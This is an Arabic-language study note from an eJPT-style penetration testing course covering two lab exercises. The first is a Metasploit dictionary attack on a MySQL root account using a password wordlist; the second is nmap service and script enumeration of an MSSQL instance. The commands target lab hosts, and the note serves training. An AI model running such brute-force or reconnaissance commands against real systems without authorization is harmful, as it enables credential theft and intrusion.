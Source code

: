 # Session 4 (ejpt) - Day 4
## Assessment Methodologies part 3


السلام عليكم ورحمة الله وبركاته

اليوم باذن الله راح نبدا ماتوقفنا عليه امس والي هو لاب
MySQL Recon: Dictionary Attack


---

راح نبداء باللاب الاول الي هو 

MySQL Recon: Dictionary Attack
-----------------------------------|

طبعا هذا اللاب المطلوب نسوي بروت فورس على يوزر الروت عشان نحصل الباسورد  

طبعا راح نستخدم في هذي المره الـ MSFconsole  

راح اكتب الاوامر مباشره بدون شرح هالمره في هذا اللاب لان استعملناه من قبل  

مطلوب مننا نجيب الباسورد حق يوزر الروت راح نسوي بروت فورس عن طريق MSFconsole  
[msfconsole]  
[use auxiliary/scanner/mysql/mysql_login]  
[set RHOSTS 192.149.194.3]  
[set USERNAME root]  
[set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt]  
[set VERBOSE false]  
[set STOP_ON_SUCCESS true]  
[exploit] or [run]  

نشوف انه عطانا الباسورد لاب خفيف جدا  


---


راح نبداء باللاب الثاني الي هو 

MSSQL: Nmap Scripts
-----------------------------------|

طبعا الان بعد مافتحنا اللاب ظاهر لنا التارقت راح نسوي scan

وبنستخدم اداة nmap
[nmap -sV 10.6.26.48]

زي مانشوف الان طلع لنا البروتوكولات المفتوحه

طبعا الاشياء الفرق فقط البورت وكذالك اسم السيرفس مختلف وهذا يعتبر اصدار ويندوز

port = 1433
server= ms-sql-s

راح نسوي بحث الان عن هذا البورت نجمع معلومات عنه باستخدام nmap script
[nmap -sV --script ms-sql-ntlm-info mssql.instance-port=1433 10.6.26.48 -p 1433]
